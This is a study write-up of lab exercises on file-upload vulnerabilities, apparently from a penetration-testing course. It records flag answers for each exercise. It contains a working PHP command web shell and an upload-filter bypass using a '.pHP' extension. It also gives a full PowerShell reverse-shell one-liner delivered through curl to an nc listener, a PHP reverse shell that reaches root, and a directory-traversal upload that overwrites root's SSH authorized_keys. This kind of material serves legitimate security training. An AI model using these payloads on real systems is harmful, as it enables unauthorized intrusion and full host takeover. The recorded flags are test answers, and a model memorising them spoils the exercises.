 
# Using Executable Files


1. Follow the steps above on VM #1 and exploit the file upload vulnerability. The flag is located in the **C:\xampp\passwords.txt** file as a password for the _mountainadmin_ user.$

- Use upload to send simple_backdoor.pHP to site (php misspelling to get around upload filter mechanism)
```php
<?php
if(isset($_REQUEST['cmd'])){
	echo "<pre>";
	$cmd = ($_REQUEST['cmd']);
	system($cmd);
	echo "</pre>";
	die;
}
?>
```

- Craft PowerShell one-liner using **pwsh** for a PS terminal in Kali
```powershell
# Don't forget to replace IP &/or port!!
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'


PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

PS> $EncodedText =[Convert]::ToBase64String($Bytes)

PS> $EncodedText
```

- Copy results of $EncodedText and tack on as *cmd* parameter using **curl**
```bash
# Start nc listener in another tab
nc -nlvp 4444
# Abuse file upload
curl http://mountaindesserts.com/meteor/uploads/simple_backdoor.pHP?cmd=powershell%20-enc%20JABjAG....ACkA==
# In tab w/ listener, after connection.  NOTE Windows \
type ..\..\..\passwords.txt
```


> Answer:  OS{250ced38486095fb0e4de2c5f191e087}



2. The target VM #2 is running an instance of _TinyFileManager_. Disable Burp before you start to avoid issues with the web application. Log in to the web application at **hxxp://192.168.50.16/index.php** with the user **admin** and password **admin@123**. Find a way to get code execution by using an uploaded web shell. Display the contents of the **/opt/install.txt** file to get the flag.
   
- Copy the reverse shell **/usr/share/webshells/phpphp-reverse-shell.php** to current working directory and edit file to add your current IP and port of choice
- Login to website and upload the file (don't forget to rename extension to bypass .php filters jic)

![](9.3ex_fileUpload.png)
- In 1 tab start a nc listener on port set in the revshell.pHP file
- In 2nd tab, execute php payload
```bash
# tab 2
curl http://192.168.193.16/revshell.pHP

# tab 1
		listening on [any] 4444 ...
		connect to [192.168.45.202] from (UNKNOWN) [192.168.193.16] 37868
		Linux 2e5d4a2f3769 5.4.0-132-generic #148-Ubuntu SMP Mon Oct 17 16:02:06 UTC 2022 x86_64 Linux
		sh: w: not found
		uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
		/ # /bin/sh: can't access tty; job control turned off
	cat /opt/install.txt
		Hello admin team. We needed to reset all passwords to OS{30412148aa2ec715f1967e4c8d3e528d}.
	/ # exit
```

> Answer:  OS{30412148aa2ec715f1967e4c8d3e528d}



# Using Non-Executable Files

- Use Burp and test uploading of txt file.  Send POST request to Burp's Repeater, rename uploaded filename, and test whether relative path throws an error
   ![](upload_outsideWebRoot.png)
   
- Replicate a public/ private key
```bash
# here, we'll save key to file: fileupload
ssh-keygen

# result is a private (fileupload) and public (fileupload.pub) key pair

# copy the public key to authorized_keys
cat fileupload.pub > authorized_keys
```

- Select 'authorized_keys' file to upload, Turn on Burp's Intercept, then hit Upload
- Prepend the directory traversal sequence (**../../../../root/.ssh/**) to the filename to attempt to overwrite root's own authorized_keys file
![](file_upload_keys.png)

- Attempt an SSH connection using your private key pair
```bash
# If connected to before, remove the previously saved host key
rm ~/.ssh/known_hosts

# Attempt SSH connection
ssh -i fileupload -p 2222 root@mountaindesserts.com

# Once connected cat file (it'll put you in root's home dir, but best get in habbit of using full path name for full OSCP points)
cat /root/flag.txt
```


> Answer:  OS{9d8bfff79dab8d7fee05e77ae73116ae}